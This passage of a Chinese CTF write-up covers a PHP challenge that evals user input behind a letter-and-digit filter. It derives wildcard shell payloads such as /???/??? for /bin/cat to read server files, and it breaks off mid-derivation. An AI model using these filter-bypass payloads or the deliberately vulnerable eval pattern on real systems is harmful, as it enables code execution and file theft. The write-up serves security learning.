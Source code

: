 
## Web2

拿到题目

```
http://101.71.29.5:10014/
```

代码如下

```
&lt;?php
include 'flag.php';
if(isset($_GET['code']))`{`
    $code = $_GET['code'];
    if(strlen($code)&gt;35)`{`
        die("Long.");
    `}`
    if(preg_match("/[A-Za-z0-9_$]+/",$code))`{`
        die("NO.");
    `}`
    @eval($code);
`}`else`{`
    highlight_file(__FILE__);
`}`
//$hint =  "php function getFlag() to get flag";
?&gt;
```

发现字母啥都被过滤了，第一反应就是通配符，容易想到

```
/???/??? =&gt; /bin/cat
```

那么构造

```
$_=`/???/???%20/???/???/????/?????.???`;?&gt;&lt;?=$_?&gt;
"/bin/cat /var/www/html/index.php"
```

长度超过了上限

参考这篇文章

```
https://www.anquanke.com/post/id/154284
```

使用*通配

```
$_=`/???/???%20/???/???/????/*`;?&gt;&lt;?=$_?&gt;

```

但是没有$和_<br>
改进为
